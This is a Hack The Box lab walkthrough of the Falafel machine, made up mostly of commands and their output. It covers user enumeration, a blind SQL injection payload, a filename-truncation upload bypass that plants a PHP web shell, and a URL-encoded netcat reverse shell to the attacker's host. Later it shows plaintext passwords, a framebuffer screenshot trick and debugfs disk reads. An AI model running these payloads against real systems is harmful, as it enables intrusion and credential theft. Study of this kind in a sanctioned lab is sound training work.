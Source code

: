 ### Writeups
* https://www.noobsec.net/hackthebox/htb-falafel-writeup-w-o-metasploit/

### Enum User
```bash
❯ export IP=10.129.87.147
❯ wfuzz -u http://$IP/login.php -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -d 'username=FUZZ&password=pass' --hw 657 -c
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.129.87.147/login.php
Total requests: 10177

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                          
=====================================================================

000000086:   200        102 L    659 W      7091 Ch     "admin"                                                                                                                          
000001886:   200        102 L    659 W      7091 Ch     "chris"
```

### SQLi with Burp
It’s important to keep in mind that when our SQL injection is working, we get the error “Wrong identification”, and when it does not, we get an error “Try again”.

Similarly, we can extract the hashes of the users present in here.

We’ll test for `[a-f0-9]` (because hashes) for each character position for the password column, and if we get the error “Wrong identification”, then it would indicate that for position X the password column has that character.

```burp
username=admin'+AND+substring(username,1,1)='a'--+-&password=pass
```

### Hash Extraction - Burp Intruder
Use Brute forcer instead of generating another one time list

### Python to automation since Burp still slow for that
```bash
❯ python3 admin-hash.py
0e462096931906507119562988736854
Hash is:        0e462096931906507119562988736854

john's hash 

❯ time python3 admin-hash.py
d4ee02a22fc872e36d9e3751ba72ddc8
Hash is:        d4ee02a22fc872e36d9e3751ba72ddc8 -> md5 juggling

python3 admin-hash.py  1.72s user 0.25s system 0% cpu 3:19.89 total
```

Chris
Juggler by day, Hacker by night
Hey, my name is chris, and I work at the local circus as a juggler. After work, I always eat falafel.
By night, I pentest random websites as a hobby. It's funny how sometimes both the hobby and work have something in common.. 

### PHP Type Juggling
* https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09
* https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf <- Insomnia 2015
* https://github.com/A1vinSmith/hashes/blob/master/md5.md

### File Upload
```bash
❯ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4
❯ touch Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4.png
touch: cannot touch 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4.png': File name too long
❯ touch Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai.png
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.115.123 - - [21/Feb/2023 14:36:58] "GET /Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai.png HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.

❯ echo -n "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah" >> off_set3

❯ wc off_set3
  0   1 236 off_set3

> "Let's use 232 then add 4 Chars as extension = 236"

❯ msf-pattern_offset -l 255 -q h7Ah
[*] Exact match at offset 232

❯ python -c 'print("A" * 232)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

❯ touch AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png
❯ echo -n "<?php echo system(\$_REQUEST['cmd']); ?>" > AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png

❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.115.123 - - [21/Feb/2023 14:56:02] "GET /AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png HTTP/1.1" 200 -
```

### Foothold
```bash
curl http://10.129.115.123/uploads/0221-0355_41a27f8385706a49/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php?cmd=id

curl http://10.129.115.123/uploads/0221-0355_41a27f8385706a49/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.10.16.3%2080%20%3E%2Ftmp%2Ff
```

revshelle.com url encoding to make it work

### Lateral movement to moshe
```bash
www-data@falafel:/var/www/html$ cat connection.php
cat connection.php
<?php
   define('DB_SERVER', 'localhost:3306');
   define('DB_USERNAME', 'moshe');
   define('DB_PASSWORD', 'falafelIsReallyTasty');
   define('DB_DATABASE', 'falafel');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
   // Check connection
   if (mysqli_connect_errno())
   {
      echo "Failed to connect to MySQL: " . mysqli_connect_error();
   }
?>
```

### SSH as password reuse
```bash
ssh moshe@$IP 
```

### Lateral movement from moshe to Yossi
* https://youtu.be/CUbWpteTfio?t=2575
* https://0xdf.gitlab.io/2018/06/23/htb-falafel.html#privesc-moshe---yossi

```bash
$ w
 04:24:19 up  1:19,  2 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1                      03:05    1:18m  0.06s  0.05s -bash
moshe    pts/0    10.10.16.3       04:14    0.00s  0.00s  0.00s w
$ id
uid=1001(moshe) gid=1001(moshe) groups=1001(moshe),4(adm),8(mail),9(news),22(voice),25(floppy),29(audio),44(video),60(games)
$ groups
moshe adm mail news voice floppy audio video games
$ for x in $(groups); do echo ========${x}========; find / -group ${x} ! -type d -exec ls -la {} \; 2>/dev/null > ${x}; done
========moshe========
========adm========
========mail========
========news========
========voice========
========floppy========
========audio========
========video========
========games========
$ ls -l
total 68
-rw-rw-r-- 1 moshe moshe  1832 Feb 21 04:25 adm
-rw-rw-r-- 1 moshe moshe   119 Feb 21 04:25 audio
-rw-rw-r-- 1 moshe moshe     0 Feb 21 04:25 floppy
-rw-rw-r-- 1 moshe moshe     0 Feb 21 04:25 games
-rw-rw-r-- 1 moshe moshe     0 Feb 21 04:25 mail
-rw-rw-r-- 1 moshe moshe 50120 Feb 21 04:25 moshe
-rw-rw-r-- 1 moshe moshe     0 Feb 21 04:25 news
-r-------- 1 moshe moshe    33 Feb 21 03:06 user.txt
-rw-rw-r-- 1 moshe moshe   244 Feb 21 04:25 video
-rw-rw-r-- 1 moshe moshe     0 Feb 21 04:25 voice

$ cat video
crw-rw---- 1 root video 29, 0 Feb 21 03:05 /dev/fb0
crw-rw----+ 1 root video 226, 0 Feb 21 03:05 /dev/dri/card0
crw-rw----+ 1 root video 226, 128 Feb 21 03:05 /dev/dri/renderD128
crw-rw---- 1 root video 226, 64 Feb 21 03:05 /dev/dri/controlD64
$ file /dev/fb0
/dev/fb0: character special (29/0)
$ cat /dev/fb0 > screenshot.raw

$ pwd
/home/moshe

$ cat /sys/class/graphics/fb0/virtual_size
1176,885
```

```bash
❯ scp moshe@$IP:/dev/fb0 .
moshe@10.129.115.123's password: 
scp: download /dev/fb0: not a regular file
❯ scp moshe@$IP:/home/moshe/screenshot.raw .
moshe@10.129.115.123's password: 
screenshot.raw 

❯ file screenshot.raw
screenshot.raw: Targa image data - Map (256-257) 257 x 1 x 1 +257 +1 - 1-bit alpha "\001"   
```

`apt install gimp` https://pkg.kali.org/pkg/gimp

Yossi:MoshePlzStopHackingMe!

### Root
```bash
yossi@falafel:/dev$ ls -la | grep sd
brw-rw----  1 root  disk      8,   0 Feb 21 03:05 sda
brw-rw----  1 root  disk      8,   1 Feb 21 03:05 sda1
brw-rw----  1 root  disk      8,   2 Feb 21 03:05 sda2
brw-rw----  1 root  disk      8,   5 Feb 21 03:05 sda5

yossi@falafel:~$ debugfs /dev/sda1
debugfs 1.42.13 (17-May-2015)
debugfs:  cat /root/root.txt
```